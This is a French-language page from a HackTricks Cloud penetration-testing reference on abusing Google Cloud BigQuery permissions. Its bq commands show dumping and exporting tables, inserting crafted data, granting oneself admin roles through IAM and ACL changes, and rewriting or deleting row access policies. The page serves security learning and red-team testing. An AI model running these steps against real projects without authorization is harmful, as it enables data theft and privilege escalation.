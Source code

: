 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Pour plus d'informations sur BigQuery, consultez :

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Lire la table

En lisant les informations stockées dans une table BigQuery, il peut être possible de trouver des **informations sensibles**. Pour accéder aux informations, les autorisations nécessaires sont **`bigquery.tables.get`**, **`bigquery.jobs.create`** et **`bigquery.tables.getData`** :
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Exporter des données

C'est une autre façon d'accéder aux données. **Exportez-les vers un bucket de stockage cloud** et **téléchargez les fichiers** contenant les informations.\
Pour effectuer cette action, les autorisations suivantes sont nécessaires : **`bigquery.tables.export`**, **`bigquery.jobs.create`** et **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insérer des données

Il pourrait être possible d'**introduire certaines données de confiance** dans une table Bigquery pour abuser d'une **vulnérabilité à un autre endroit.** Cela peut être facilement fait avec les permissions **`bigquery.tables.get`**, **`bigquery.tables.updateData`** et **`bigquery.jobs.create`** :

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Un attaquant pourrait abuser de ce privilège pour **s'accorder des permissions supplémentaires** sur un ensemble de données BigQuery :
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Juste cette permission permet de **mettre à jour votre accès à un ensemble de données BigQuery en modifiant les ACL qui indiquent qui peut y accéder :**
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Un attaquant pourrait abuser de ce privilège pour **s'accorder des permissions supplémentaires** sur une table BigQuery :
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Selon la documentation, avec les autorisations mentionnées, il est possible de **mettre à jour une politique de ligne.**\
Cependant, **en utilisant le cli `bq`**, vous avez besoin de quelques autres : **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Il est possible de trouver l'ID de filtre dans la sortie de l'énumération des politiques de ligne. Exemple :
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Si vous avez **`bigquery.rowAccessPolicies.delete`** au lieu de `bigquery.rowAccessPolicies.update`, vous pouvez également simplement supprimer la politique :

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Une autre option potentielle pour contourner les politiques d'accès aux lignes serait de simplement changer la valeur des données restreintes. Si vous ne pouvez voir que lorsque `term` est `Cfba`, modifiez simplement tous les enregistrements de la table pour avoir `term = "Cfba"`. Cependant, cela est empêché par bigquery.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
